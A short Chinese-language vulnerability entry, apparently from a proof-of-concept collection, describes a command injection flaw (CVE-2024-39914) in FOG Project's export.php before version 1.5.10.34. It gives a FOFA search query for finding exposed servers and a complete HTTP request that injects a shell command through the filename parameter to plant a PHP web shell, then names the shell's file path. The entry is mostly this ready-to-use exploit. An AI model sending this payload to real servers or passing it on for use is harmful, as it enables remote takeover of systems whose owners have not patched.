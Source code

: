# fogproject系统接口export.php存在远程命令执行漏洞(CVE-2024-39914)

FOG是一款克隆/成像/救援套件/库存管理系统。在版本低于1.5.10.34的情况下，FOG中的packages/web/lib/fog/reportmaker.class.php文件受到命令注入漏洞的影响，该漏洞存在于/fog/management/export.php的文件名参数中。此漏洞已在版本1.5.10.34中得到修复。

## fofa

```yaml
body="FOG Project"
```

## poc

```yaml
POST /fog/management/export.php?filename=$(echo+'<?php+echo+shell_exec($_GET['"'cmd'"']);+?>'+>+lol.php)&type=pdf HTTP/1.1  
Host: 192.168.15.5 
Content-Length: 21  
User-Agent: ToxicPotato  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
  
fogguiuser=fog&nojson=2
```

![victory](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191238873.png)

文件路径：`/fog/management/lol.php`